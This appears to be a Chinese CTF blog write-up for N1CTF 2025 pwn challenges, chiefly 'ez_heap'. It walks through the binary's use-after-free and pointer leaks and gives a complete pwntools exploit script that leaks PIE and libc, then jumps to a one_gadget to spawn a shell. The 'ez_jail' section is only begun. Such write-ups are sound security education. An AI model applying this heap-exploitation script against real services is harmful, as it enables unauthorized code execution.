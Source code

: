 ```yaml
---
title: N1ctf-2025-pwn
tags:
    - heap
    - pwn
categories:
    - 比赛记录
cover: /img/治不开心药.png
---
```

# N1ctf-2025-pwn

## 前言
## ez_heap

### 静态分析
struct：
```c
struct my_struct{
__int64 name_size;
__int64 conten_size;
char name[16];
__int64 heap_addr;
__int64 arry_addr;
}
```
其实是用一个大堆块，每0x30 用来保存一个堆块的相关信息。 每次add，会申请新堆块来保存content

![](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/20250914201234102.png)

在这里发现，可以通过`*a3` 造成一个uaf 漏洞,配合后面`show()`可以泄露出main_arena,那么就拿到了libc.

但是进一步发现，edit和show 都只能使用一次，而且 `*a3` 为0 时,delete 会返回到v7(由用户控制),但是我们没有任何地址信息.

edit的scanf 虽然有溢出漏洞,但是`\x00` 截断的问题还是没有解决.如果可以知道pie ,我们可以覆盖heapaddr 为got 表把libc泄露出来.


等一下,原本这里是堆的地址,我们现在可以计算目标和这里原地址的偏移,同时已知^运算的另一个数,那么我们其实可以计算最后的结果,嘶~~ .那么就可以把pie泄露出来,接下来就是看能不能正常从edit和show里返回了。

### exp

```python
from esy import *
context.log_level="debug"
context.terminal=['tmux','splitw','-h','-l','66%']

libc=ELF("./libc.so.6")

# 一些阻碍
pas=b"admin"+b":"+b"x"+p8(0xc2)+b"xxxxxx"+b":Junior:1234"
keys=b"a"*7
# gdb.attach(io,'''
# b *$rebase(0x1C20)
# b *$rebase(0x1ae4)
# b *$rebase(0x1C0B)
# b *$rebase(0x1952)
# ''')
# onegadgets
'''
0xef52b onegadgets
0xef4ce onegadgets
0x3F60 puts
0x4080 
b *$rebase(0x1D4C)
'''
def key():
    io.sendlineafter("Please enter your key:\n",keys)

def add(name,size,content):
    io.sendlineafter("Please enter your choice.~~",str(1))
    key()
    io.sendafter("name:(size<16)\n",name)
    io.sendlineafter("content size:(size<=0x70)\n",str(size))
    io.sendafter("content:\n",content)

def delete(idx,num):
    io.sendlineafter("Please enter your choice.~~\n",str(2))
    key()
    io.sendlineafter("index:\n",str(idx))
    io.sendlineafter("numbers:\n",num)

def show(idx):
    io.sendlineafter("Please enter your choice.~~\n",str(3))
    key()
    io.sendlineafter("index:\n",str(idx))

def edit(idx,name):
    io.sendlineafter("Please enter your choice.~~\n",str(4))
    key()
    io.sendlineafter("index:\n",str(idx))
    io.sendlineafter("name:(size<16)\n",name)
one=[0xef52b,0xef4ce]
name=b"a"*0xf
main=0x1CCB
menu=0x1DA1

def pwn():
    io.sendlineafter("Do you want to play a game with me?\n",pas)
    add(name,0x68,b'a\n')
    add(name,0x68,b'b\n')
    add(name,0x68,b'c\n')
    add(name,0x68,b'd\n')
    # leak pie heap
    payload=name+b"\x00"+b"\xba"
    edit(0,payload)
    show(0)
    io.recvuntil("content: ")
    heap=u64(io.recv(6).rjust(8,b"\x00"))
    pie=u64(io.recv(6).ljust(8,b"\x00"))-0x4080
    logv("pie",hex(pie))
    logv("heap",hex(heap))
    delete(1,str(pie+main).encode())
    # count & leak libc

    puts_got=elf.got["puts"]+pie
    puts_encode=puts_got ^ 0x787878787878c278
    payload=name+b"\x00"+p64(puts_encode)
    io.sendlineafter("Do you want to play a game with me?\n",pas)
    edit(2,payload)
    show(2)
    io.recvuntil("content: ")
    puts=u64(io.recv(6).ljust(8,b"\x00"))
    libc_base=puts-libc.sym["puts"]
    logv("puts",hex(puts))
    logv("libc_base",hex(libc_base))
    getshell=libc_base+one[0]
    delete(1,str(getshell).encode())
    
    
while True:
    try:
        io,elf=loadfile("./heap","",0)
        pwn()
        io.interactive()
    except:
        io.close()



```

## ez_jail

## 静态分析

![image.png](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/20250920223356355.png)

uaf可以配合`show`,泄露main_arena 信息来泄露libc ,但是要如何利用呢?

